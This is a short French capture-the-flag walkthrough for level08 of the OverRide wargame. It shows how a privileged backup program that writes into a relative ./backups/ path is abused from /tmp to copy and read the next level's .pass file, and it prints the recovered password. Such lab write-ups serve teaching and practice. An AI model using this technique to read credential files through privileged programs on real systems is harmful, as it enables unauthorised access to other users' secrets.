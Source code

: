 # level08

Apparemment le programme ouvre le fichier en paramètre et en fait un backup dans `./backups/`

Si on essaye de lui faire faire un backup du `.pass` du level09, ça ne fonctionne pas car le path pour faire le backup n'existe pas
```level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

On a juste a créer le path en question dans `/tmp` et à lancer l'exécutable depuis la bas pour pouvoir faire un backup du `.pass`
```sh
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups/.log
level08@OverRide:/tmp$ mkdir -p ./backups
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
level08@OverRide:/tmp$ mkdir -p ./backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat ./backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```